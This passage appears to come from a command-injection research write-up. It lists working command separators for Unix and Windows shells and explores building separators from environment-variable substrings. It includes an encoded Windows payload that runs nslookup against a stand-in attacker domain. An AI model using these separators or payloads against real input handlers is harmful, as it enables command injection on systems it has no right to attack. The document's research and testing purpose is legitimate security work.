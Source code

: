 The above is just an example of bypassing poorly written input-sanitizing function from the perspective of alternative argument separators. 


#### Command separators trickery
Achieving the ability of injecting arbitrary commands usually boils down to the ability of injecting valid command separators first.

Below is the list of working commmand separators:

On unix:
- `%0a` (new line character)
- `%0d` (carriage return character)
- `;`
- `&`
- `|`

On windows:
- `%0a` (new line character)
- `&`
- `|`
- `%1a` - a magical character working as a command separator in .bat files (discovered while researching cmd.exe to find alternative command separators - full description of the finding: http://seclists.org/fulldisclosure/2016/Nov/67)

#### More witchcraft
Also, what's very interesting on win is the fact that the semicolon `;` does NOT work as a command separator. 
This is very sad, because e.g. the `%PATH%` env variable usually looks more-less like this:
`C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;[...]`. 
Therefore it would be great to use an alternative command separator like `%PATH:~19,1%` (substring expression that cuts out the first `;`, so it evaluates to it) with payloads like `a%25PATH:~19,1%25nslookup%25ProgramFiles:~10,1%25evildns.attacker.com%25PATH:~19,1%25`, which would evaluate to `a;nslookup evildns.attacker.com;`.
Unfortunately the default environmental variables under Windows do not contain any supported command separator, like `&`. 
It WOULD work, here's why:

 ![Little test](screenshots/win_shellshock.png?raw=true "Little test")

* This behavior was described long time ago, being called the "Windows version" of the famous bash shellshock vulnerability (https://www.thesecurityfactory.be/command-injection-windows.html)

I am still hoping for some undocumented cmd.exe function that will allow to forge `&` by some sort of single expression (or some hidden, undocumented special environmental variables not visible in `env` output). More research is needed.

By the way, I also really hoped for a similar thing to work on nix. E.g. the `$LS_COLORS` variable looks more-less like: `rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37[...]`.
Hence, I really hoped for expression like `ls .${LS_COLORS:10:1}id` to work (evaluating to `ls .;id` and treating `;` as a command separator). Unfortunately bash plays it safe and treats such a string as a literal:
`ls: cannot access '.;id': No such file or directory`. Who knows... More research is needed (especially with cmd.exe as it is not open source, but also on other shells like dash (and powershell!).
